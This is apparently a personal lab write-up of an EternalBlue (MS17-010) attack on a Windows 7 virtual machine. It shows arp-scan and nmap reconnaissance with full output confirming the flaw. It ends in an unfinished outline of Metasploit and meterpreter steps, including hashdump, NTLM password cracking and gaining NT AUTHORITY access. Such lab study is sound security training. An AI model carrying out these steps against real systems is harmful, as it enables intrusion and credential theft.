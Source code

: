 # **EternalBlue Exploitation | MS17-010 | AL**

The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.

## **Identifying target**

**Target machine:**
windows cmd confirmation with ipconfig 192.168.64.131

**Confirming the target machine on local network**
sudo arp-scan -l

    root@kali:/home/kali# arp-scan -l
    Interface: eth0, type: EN10MB, MAC: 00:0c:29:e4:4b:56, IPv4: 192.168.64.129
    Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
    192.168.64.2    00:50:56:f7:bd:1d       VMware, Inc.
    192.168.64.1    00:50:56:c0:00:08       VMware, Inc.
    192.168.64.131  00:0c:29:9c:4b:83       VMware, Inc.
    192.168.64.254  00:50:56:e1:67:05       VMware, Inc.


## **Test target connecitvity:**
ping 192.168.64.131

    ping 192.168.64.131. 29 packets transmitted 29 received, 0% packet loss.

## **Target scanning using nmap:** 
nmap -sC -sV -T4 --top-ports 1000 192.168.64.131 
      
      kali@kali:~$ nmap -sC -sV -T4 --top-ports 1000 192.168.64.131
      Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-26 08:42 EDT
      Nmap scan report for 192.168.64.131
      Host is up (0.00028s latency).
      Not shown: 992 closed ports
      PORT      STATE SERVICE      VERSION
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      49152/tcp open  msrpc        Microsoft Windows RPC
      49153/tcp open  msrpc        Microsoft Windows RPC
      49154/tcp open  msrpc        Microsoft Windows RPC
      49155/tcp open  msrpc        Microsoft Windows RPC
      49156/tcp open  msrpc        Microsoft Windows RPC
      Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      |_clock-skew: mean: 16h19m58s, deviation: 2h18m33s, median: 14h59m58s
      |_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:9c:4b:83 (VMware)
      | smb-os-discovery: 
      |   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1
      |   Computer name: WIN-845Q99OO4PP
      |   NetBIOS computer name: WIN-845Q99OO4PP\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-26T23:43:24-04:00
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode: 
      |   2.02: 
      |_    Message signing enabled but not required
      | smb2-time: 
      |   date: 2024-09-27T03:43:24
      |_  start_date: 2024-09-27T03:11:45
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 65.81 seconds

## **Vulnerability scanning using nmap:**
nmap --script vuln --top-ports 1000 192.168.64.131 
  
      Host script results:
      |_smb-vuln-ms10-054: false
      |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
      | smb-vuln-ms17-010: 
      |   VULNERABLE:
      |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
      |     State: VULNERABLE
      |     IDs:  CVE:CVE-2017-0143
      |     Risk factor: HIGH
      |       A critical remote code execution vulnerability exists in Microsoft SMBv1
      |        servers (ms17-010).
      |           
      |     Disclosure date: 2017-03-14
      |     References:
      |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
      |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
      |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
      
      Nmap done: 1 IP address (1 host up) scanned in 126.35 seconds


# **TBC here onwards.** 

Research all ports, along with the critical finding in scan number 2.

## **Exploits for Port 135/tcp (Microsoft Windows RPC)**
Port 135 is used by the RPC Endpoint Mapper. Historically, there have been vulnerabilities associated with RPC services, notably:

MS03-026 (CVE-2003-0352): A buffer overflow in the RPC DCOM interface allowing remote code execution.
MS03-039 (CVE-2003-0715): Similar to MS03-026 with additional fixes.

However, these vulnerabilities affect older Windows versions like Windows XP and Windows 2000. Windows 7 SP1 is not affected by these specific vulnerabilities, and they were patched long ago.

## **Exploits for Port 139/tcp (NetBIOS Session Service)**
Port 139 is used for NetBIOS Session Service, which facilitates file and printer sharing over NetBIOS.

Historical Vulnerabilities:
Information Disclosure: Null session attacks could allow an attacker to enumerate users, shares, and other information.
SMB Relay Attacks: Exploiting SMB to relay authentication and gain unauthorized access.
However, these are typically not direct remote code execution vulnerabilities and often require additional conditions or misconfigurations.

look for auxiliary verison
check if target ip is vulnerable

use 3
set payload to win7/tcp/meterpreter version
rhost target ip
run

meterpreter shell access
sysinfo
hashdump

crack ntml password
conduct screenshot

gain nt authority access

